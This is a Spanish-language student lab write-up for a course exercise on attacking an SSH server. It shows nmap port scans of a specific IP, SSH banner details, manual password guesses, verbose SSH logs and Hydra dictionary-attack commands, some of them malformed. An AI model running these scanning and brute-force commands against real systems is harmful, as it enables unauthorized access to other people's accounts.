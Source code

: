 # Práctica 4 - SSH multiverse

Azpeitia García Karyme Ivette

Pedro Méndez Jose Manuel 

## Procedimiento.

### Escanear el objetivo

Primero realizaremos un escaneo de puertos para encontrar y recopilar información sobre los puertos están activos escuchando by SSH, apoyandonos de nmap ejecutando este comando:

```bash
nmap 44.199.201.139 -sV -Pn -sT
```

| ![](img/nmapOut.png)
|:----------------------:|
| Imagen sobre la que trabajamos utilizando la herramienta: _Exif.tools_.

* Podemos observar que el servidor tiene los puertos abiertos para SSH abiertos:
	* 222/tcp  open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2200/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2222/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)

* Con shodan obtenemos que esta abierto el puerto 2200 y obtuvimos esta información.

```bash
OpenSSH6.6.1p1 Debian 5

SSH-2.0-OpenSSH_6.6.1p1 Debian-5
Key type: ssh-rsa
Key: AAAAB3NzaC1yc2EAAAADAQABAAABgQC4Iwij+KzpsW0v4w+7uIK4JUNv2guRNymYobgYXT5I1a2F
s3LQHPqy1MPxdgcL2NJJuQAVJv7ei4L2d9BRzn1MK10+Sf1iAidrGuCOJa+iY1ktxrynoePj/WOL
C2nR7roninmLQeUH8nUM6wYvb9qFaiEVH0LDtmoM0KdAiqq/Mndvaa5EcwYfmQ/CAUtg2y4n6Zyw
QjNLTtMljO8uM2wF5KJ9ucREhatb2M4YvvtQr07eKnGXwBKI03GYZMNHRcdLm8DxmDog+Ba4Gt9g
dpl/xQYPWqg130Dd24XPI/XPTCD41alelCCSNmL/4X5M2MAdTyll4d7Uc39owV13HELhh3ByyPmp
mr/ve3CCu3an1dYfvdU90JAv3PZoVQn3qCGxXFQghJs9VOPiiIxoeXxvAJCjInNt2xn/Ui47Vbwl
Y81ZXTXCKub/QI7/e8dbUqO8t4FyjfVMmGW0b65uRoBpRWl5gyV9ZtGTQPM+yfBS40fyuJ5rDQt/
48glIcHVnNE=
Fingerprint: ed:77:90:77:07:7e:17:39:b6:77:98:60:d0:0c:ef:c1

Kex Algorithms:
	curve25519-sha256@libssh.org
	ecdh-sha2-nistp256
	ecdh-sha2-nistp384
	ecdh-sha2-nistp521
	diffie-hellman-group16-sha512
	diffie-hellman-group-exchange-sha256
	diffie-hellman-group14-sha256
	diffie-hellman-group-exchange-sha1
	diffie-hellman-group14-sha1
	diffie-hellman-group1-sha1

Server Host Key Algorithms:
	rsa-sha2-512
	rsa-sha2-256
	ssh-rsa

Encryption Algorithms:
	aes128-ctr
	aes192-ctr
	aes256-ctr
	aes128-cbc
	aes192-cbc
	aes256-cbc
	3des-cbc

MAC Algorithms:
	hmac-sha2-256
	hmac-sha2-512
	hmac-sha2-256-etm@openssh.com
	hmac-sha2-512-etm@openssh.com
	hmac-sha1
	hmac-md5
	hmac-sha1-96
	hmac-md5-96

Compression Algorithms:
	none
```

* Sin embargo intentando obtener más información usando nmap y ejecutando el comando:  
	- sT TCP connect scan
	
```bash
nmap -sV -Pn -sT -p -10000 44.199.201.139
```

* Obtuvimos  los siguiente:	
PORT     STATE SERVICE VERSION
	* 222/tcp  open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2200/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2202/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* **_2220/tcp open  netiq?_**.
	* 2222/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)


* Obtendremos más información realizando unas conecciones vía ssh:

	- ssh -p 222 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- olakhace1
			- esdiverti
			- JOSEMPM12
	- ssh -p 2222 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- JOSEMANUE
			- josemanue
			- joseyapas
	- ssh -p _2202_ 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- contraseñ
			- CONTRASEÑ
			- NOPASASTE
	- ssh -p _**2220**_ 315073120@44.199.201.139 
		- No nos permite hacer nada y ahora creo que perdí mi tiempo, porque se queda en el limbo.
	- ssh -p 2222 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- pasaste12
			- bandera12
			- BANDERASI
 
####  Uso del parámetro _-v_.

* Ejecutando ssh con el párametro *_-v_* sobre uno de los puertos que nos permitían intentar realizar una conección rapido obtuvimos la siguiente información tras poder ingresar nuestra clave:

```bash
ntory@debian11:~$ ssh -v -p 2202 315073120@44.199.201.139 
OpenSSH_8.4p1 Debian-5+deb11u1, OpenSSL 1.1.1n  15 Mar 2022
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: /etc/ssh/ssh_config line 19: include /etc/ssh/ssh_config.d/*.conf matched no files
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug1: Connecting to 44.199.201.139 [44.199.201.139] port 2202.
debug1: Connection established.
debug1: identity file /home/ntory/.ssh/id_rsa type -1
debug1: identity file /home/ntory/.ssh/id_rsa-cert type -1
debug1: identity file /home/ntory/.ssh/id_dsa type -1
debug1: identity file /home/ntory/.ssh/id_dsa-cert type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa-cert type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa_sk type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa_sk-cert type -1
debug1: identity file /home/ntory/.ssh/id_ed25519 type -1
debug1: identity file /home/ntory/.ssh/id_ed25519-cert type -1
debug1: identity file /home/ntory/.ssh/id_ed25519_sk type -1
debug1: identity file /home/ntory/.ssh/id_ed25519_sk-cert type -1
debug1: identity file /home/ntory/.ssh/id_xmss type -1
debug1: identity file /home/ntory/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u1
debug1: Remote protocol version 2.0, remote software version OpenSSH_6.6.1p1 Debian-5
debug1: match: OpenSSH_6.6.1p1 Debian-5 pat OpenSSH_6.6.1* compat 0x04000002
debug1: Authenticating to 44.199.201.139:2202 as '315073120'
debug1: SSH2_MSG_KEXINIT sent
debug1: SSH2_MSG_KEXINIT received
debug1: kex: algorithm: curve25519-sha256@libssh.org
debug1: kex: host key algorithm: rsa-sha2-512
debug1: kex: server->client cipher: aes128-ctr MAC: hmac-sha2-256-etm@openssh.com compression: none
debug1: kex: client->server cipher: aes128-ctr MAC: hmac-sha2-256-etm@openssh.com compression: none
debug1: expecting SSH2_MSG_KEX_ECDH_REPLY
debug1: Server host key: ssh-rsa SHA256:f+L9DhB9m8fs7VoLhofLiCe55Kqe3Lf6vVPo+Ryaq8M
debug1: Host '[44.199.201.139]:2202' is known and matches the RSA host key.
debug1: Found key in /home/ntory/.ssh/known_hosts:4
debug1: rekey out after 4294967296 blocks
debug1: SSH2_MSG_NEWKEYS sent
debug1: expecting SSH2_MSG_NEWKEYS
debug1: SSH2_MSG_NEWKEYS received
debug1: rekey in after 4294967296 blocks
debug1: Will attempt key: /home/ntory/.ssh/id_rsa 
debug1: Will attempt key: /home/ntory/.ssh/id_dsa 
debug1: Will attempt key: /home/ntory/.ssh/id_ecdsa 
debug1: Will attempt key: /home/ntory/.ssh/id_ecdsa_sk 
debug1: Will attempt key: /home/ntory/.ssh/id_ed25519 
debug1: Will attempt key: /home/ntory/.ssh/id_ed25519_sk 
debug1: Will attempt key: /home/ntory/.ssh/id_xmss 
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521,rsa-sha2-512,rsa-sha2-256,ssh-rsa,ssh-dss>
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: password,publickey
debug1: Next authentication method: publickey
debug1: Trying private key: /home/ntory/.ssh/id_rsa
debug1: Trying private key: /home/ntory/.ssh/id_dsa
debug1: Trying private key: /home/ntory/.ssh/id_ecdsa
debug1: Trying private key: /home/ntory/.ssh/id_ecdsa_sk
debug1: Trying private key: /home/ntory/.ssh/id_ed25519
debug1: Trying private key: /home/ntory/.ssh/id_ed25519_sk
debug1: Trying private key: /home/ntory/.ssh/id_xmss
debug1: Next authentication method: password
315073120@44.199.201.139's password: 
```

* Ejecutando ssh con el párametro *_-v_* sobre el puerto(2220) que NO nos permitían intentar realizar una conección rapido obtuvimos la siguiente información tras poder ingresar nuestra clave:
	- La salida se encuentra en el archivo [result.txt](\files\result.txt) porque fue muy grande. Y no pude interpretar la salida del debug1. :sad: 

* Por lo que ahora atacaremos los 4 puertos que permiten realizar una conección by ssh.

### Atacar al objetivo: 

Obtener mediante un ataque de diccionario la contraseña correspondiente a su  usuario (utilizando Hydra por ejemplo).

* Primero instalaremos Hydra en nuestra AttackBox con el siguiente comando:
```bash
sudo dnf install hydra -y 
```
#### Luego atacaremos el puerto 222 con el comando:

```bash
hydra -s 222 -l 315073120 -P /home/ntory/CyS/p04/palabras9car.txt 44.199.201.139 -t 4 -f ssh
```

O si configuras 44.199.201.139 como attackbox2

hydra -l usuario -p contraseñaAUsar attackbox2 ssh
44.199.201.139 

hydra -L archivo_de_usuario -p contraseñaAUsar attackbox2 ssh 

hydra -L 315073120 -P palabras_9car.txt: 44.199.201.139  ssh 

###  Crear evidencia de haber entrado al sistema

La parte más sencilla, basta que ejecuten $ touch $NumeroDeCuenta para dejar registro que estuvieron ahí.

### Post-explotación.
```bash
PLANTILLA
```
------
📢⌨️ with ❤️ by [Jose-MPM](https://github.com/Jose-MPM) 😊⌨️ and [Kary-GOD](https://github.com/Kary-AG) 😊⌨️🎁